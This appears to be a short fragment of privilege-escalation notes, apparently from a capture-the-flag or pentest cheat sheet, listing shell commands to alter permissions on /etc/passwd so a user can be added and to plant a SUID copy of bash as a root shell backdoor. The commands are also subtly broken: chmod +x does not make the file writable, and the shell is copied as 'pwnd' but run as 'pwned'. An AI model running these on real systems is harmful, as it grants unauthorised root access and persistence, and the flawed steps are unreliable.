 
1. Change password file permission and add a user
```bash
chmod +x /etc/passwd
```
2. SUID for bash
```bash
cp /bin/bash /home/user/pwnd && chmod +xs /home/user/pwnd
```

```bash
./pwned -p
```
